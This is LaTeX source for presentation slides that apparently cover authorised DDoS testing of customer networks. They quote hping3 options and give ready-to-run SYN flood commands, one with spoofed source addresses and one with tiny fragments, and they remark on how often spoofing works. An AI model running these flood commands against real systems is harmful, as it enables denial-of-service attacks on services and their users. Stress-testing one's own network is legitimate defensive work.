 \documentclass[Screen16to9,17pt]{foils}
\begin{document}

Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within customer range

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works

BCP38 anyone!


Using the built-in option -f for hping

\begin{alltt}\small
-f --frag
    Split  packets  in more fragments, this may be useful in order to test IP
    stacks fragmentation performance and to test if some packet filter is  so
    weak  that  can  be  passed using tiny fragments (anachronistic). Default
    {\bf 'virtual mtu' is 16 bytes}. see also --mtu option.
\end{alltt}

\begin{list1}
\item \verb+hping3 -q --flood -p 80 -S -f $CUST_IP+
\item Similar process with bad checksum and Bad fragment offset
\end{list1}



\centerline{Really does it break from 50.000 pps SYN attack?}



\centerline{Oh no 500.000 pps UDP attacks work?}


\centerline{Oh no spoofing attacks work?}

\end{document}
